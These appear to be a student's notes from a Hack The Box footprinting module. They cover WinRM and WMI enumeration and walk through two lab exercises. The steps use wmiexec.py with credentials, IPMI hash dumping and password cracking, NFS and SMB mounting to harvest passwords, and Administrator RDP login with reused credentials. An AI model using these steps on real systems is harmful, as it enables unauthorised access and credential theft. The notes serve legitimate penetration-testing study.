 If we want to find out whether one or more remote servers can be reaced via WinRM, we can easily do this with the help of PowerShell. The [Test-WsMan](https://learn.microsoft.com/en-us/powershell/module/microsoft.wsman.management/test-wsman?view=powershell-7.2) cmdlet is responsible for this, and the host's name in question is passed to it. In Linux-based environments, we can use the tool called [evil-winrm](https://github.com/Hackplayers/evil-winrm), another penetration testing tool designed to interact with WinRM.

### WMI - Windows Management Instrumentation
Microsoft's 
Windows Management Instrumentation (WMI) is Microsoft's implementation and also an extension of the Common Information Model (CIM), core functionality of the standardized Web-Based Enterprise Management (WBEM) for the Windows platform. WMI allows read and write access to almost all settings on Windows systems. Understandably, this makes it the most critical interface in the Windows environment for the administration and remote maintenance of Windows computers, regardless of whether they are PCs or servers. WMI is typically accessed via PowerShell, VBScript, or the Windows Management Instrumentation Console (WMIC). WMI is not a single program but consists of several programs and various databases, also known as repositories.

### Footprinting the service:
[wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py)
The initialization of the WMI communication always takes place on TCP port 135, and after the successful establishment of the connection, the communication is moved to a random port. For example, the program wmiexec.py from the Impacket toolkit can be used for this.
```bash
/usr/share/doc/python3-impacket/examples/wmiexec.py Cry0l1t3:"P455w0rD!"@10.129.201.248 "hostname"
```

# Knowledge check for footprinting
1. scan for open ports
2. notice that in one of the ftp instances, it is called ceil's ftp, probably a UN
3. Get the password either from doing an ipmi hashdump and dehash with hashcat or brute force with ncrack.
4. wget -m --no-passive ftp://UN:PW@IP
5. Use the ssh keys to ssh into the server


# Knowledge check for medium
Check for services: 
1. Nmap open ports to discover services `nmap -Pn -sC -sV <IP>`
2. check for publiccly accessible nfs share: `showmount -e <IP>`
3. Mount `nfs` and notice that nobody is the owner however root has 777. Therefore, mount as root: 
`mount -t nfs <IP>:/ ./target-NFS/ -o nolock`
4. Find credentials in nfs:
```python
for i in tickets.split('\n'):
    os.system("sudo cat nfs_mount/{}".format(i))
```
```bash
user="alex"
password="lol123!mD"
```
5. Test the rdp session to no avail
6. mount the smb share: `sudo mount -t cifs -o username=alex //<IP>/devshare smb_target`. Might have to test the different shares
7. Find credentials: `sa:87N1ns@slls83`
8. In the RDP session, we noticed there is another user, `Administrator`, not only `sa` and `alex`, therefore, try RDP with credentials:
`xfreerdp /u:Administrator /p:"87N1ns@slls83" /v:<IP>`
9. Access the SQL management service and test query:
```sql
SELECT * FROM [accounts].[dbo].[devsacc] WHERE [name]='HTB'
```
and get the credentials for `HTB`